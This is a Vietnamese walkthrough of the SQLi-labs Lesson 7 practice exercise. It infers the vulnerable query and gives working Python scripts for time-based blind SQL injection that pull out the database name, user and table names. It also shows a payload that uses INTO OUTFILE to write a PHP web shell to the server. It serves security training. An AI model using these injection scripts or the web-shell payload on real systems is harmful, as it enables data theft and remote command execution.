








# Less 7

Đề yêu cầu nhập vào một giá trị ID



Nhập thử vào một vài giá trị 



Thử nhập vào một số giá trị khác để hiển thị lỗi



Chưa thấy báo lỗi tiếp tục thử





Như vậy ta thấy đã xảy ra lỗi. Nhưng ta thấy các một điều khác với các bài trước. Ở trong bài này nó không hiện ra lỗi cụ thể. Có thể người lập trình đã can thiệp vào các lỗi hiển thị ra. Như vậy ta rất khó để phán đoán và không thể đọc dữ liệu bằng cách làm cho nó lỗi.

Ta tiếp tục thử để xem có thể pass qua được gì từ câu query ở bên dưới hay không

Sau nhiều lần thử (và dựa vào kinh nghiệm từ các bài trước) tôi có thể đoán ra được câu query ở đây có thể là

```
select * from table where id=(('$ID')) limit 0,1
```



Dựa và đây ta có thể sử dụng time based để khai thác một số thông tin trong DB. Ở đây tôi có một đoạn code đơn giảm để tìm một số thông tin

Ví dụ xác định tên của DB

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select database()),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Khi chạy kết quả sẽ trả về như sau:

```
 python Sql-time-based.py 
s
e
c
u
r
i
t
y
+
+
+
+
+
+
+
```

Như vậy DB ở đây là `security

Hoặc xác định user

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select user()),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả trả về

```
python Sql-time-based.py 
r
o
o
t
@
l
o
c
a
l
h
o
s
t
+
```

user ở đây là: root@localhost

Hoặc có thể xem các bảng trong DB

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả trả về

```
python Sql-time-based.py 
e
m
a
i
l
s
+
+
+
+
+
+
+
+
+
```

Một bảng trong số đó là `emails`

Tương tự ta có thể show ra các thông tin khác trong DB

Ta cũng có thể truyền vào server một đoạn code PHP 

```
http://192.168.84.233/sqli-labs/Less-7/?id=1')) union select 1,2,"<?php system($_REQUEST['cmd']);?>" INTO OUTFILE '/var/www/html/tests/1.php' --+
```

Ta thấy nó vẫn báo lỗi



Nhưng thực ra ta đã add thành công


